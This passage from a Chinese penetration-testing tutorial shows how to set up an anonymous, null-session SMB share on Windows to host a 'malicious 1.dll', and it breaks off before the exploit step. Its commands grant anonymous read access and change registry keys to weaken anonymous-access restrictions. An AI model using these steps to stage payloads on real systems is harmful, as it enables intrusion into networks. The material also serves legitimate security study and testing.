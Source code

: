#### （2）Windows 创建匿名共享

接下来演示在 Windows 环境下创建匿名共享。在 Windows 机器 10.211.55.7上以管理员权限运行 cmd，然后执行如下命令。该命令会在 C 盘下创建一个名为share 的共享文件夹。

```
mkdir C:\share
```

接着，往刚刚创建的 share 目录下放入恶意的 1.dll 文件，再执行如下命令。这些命令会创建一个名为 share 的共享文件夹，共享路径是 C:\share，并且允许其匿名登录。

注：切记切记！！顺序不能错，一定是先将 1.dll 传入 C:\share 目录之后，执行如下命令。

```
icacls C:\share\ /T /grant "ANONYMOUS LOGON":r
icacls C:\share\ /T /grant Everyone:r
powershell.exe New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t
REG_DWORD /d 0 /f
```

如图所示，命令执行成功，成功创建一个名为 share 的共享文件夹，共享路径是 C:\share，并且允许其匿名登录。

![截图](5e782ce9626d17f02491f49733db24f2.png)

但是有些机器，如 Win7、Server2008 等执行如下 powershell 语句会报错。

```
powershell.exe New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone
```

对于执行 powershell 语句报错的机器，则需要 RDP 登录到目标机器，执行如下一些操作。
